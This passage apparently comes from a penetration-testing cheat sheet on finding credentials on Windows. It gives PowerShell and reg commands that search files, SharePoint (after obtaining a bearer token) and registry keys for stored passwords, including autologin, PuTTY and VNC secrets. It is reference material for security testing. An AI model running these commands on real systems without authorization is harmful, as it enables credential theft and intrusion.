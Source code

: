 #### LAPS Settings

Extract `HKLM\Software\Policies\Microsoft Services\AdmPwd` from Windows Registry.

* LAPS Enabled: AdmPwdEnabled
* LAPS Admin Account Name: AdminAccountName
* LAPS Password Complexity: PasswordComplexity
* LAPS Password Length: PasswordLength
* LAPS Expiration Protection Enabled: PwdExpirationProtectionEnabled

#### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config 2>nul >> results.txt
findstr /spin "password" *.*
```

Also search in remote places such as SMB Shares and SharePoint:

* Search passwords in SharePoint: [nheiniger/SnaffPoint](https://github.com/nheiniger/SnaffPoint) (must be compiled first, for referencing issue see: https://github.com/nheiniger/SnaffPoint/pull/6)

```powershell
# First, retrieve a token
## Method 1: using SnaffPoint binary
$token = (.\GetBearerToken.exe https://your.sharepoint.com)
## Method 2: using AADInternals
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
$token = (Get-AADIntAccessToken -ClientId "9bc3ab49-b65d-410a-85ad-de819febfddc" -Tenant "your.onmicrosoft.com" -Resource "https://your.sharepoint.com")

# Second, search on Sharepoint
## Method 1: using search strings in ./presets dir
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token
## Method 2: using search string in command line
### -l uses FQL search, see: https://learn.microsoft.com/en-us/sharepoint/dev/general-development/fast-query-language-fql-syntax-reference
.\SnaffPoint.exe -u "https://your.sharepoint.com" -t $token -l -q "filename:.config"
```

* Search passwords in SMB Shares: [SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)

#### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

#### Search the registry for key names and passwords

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```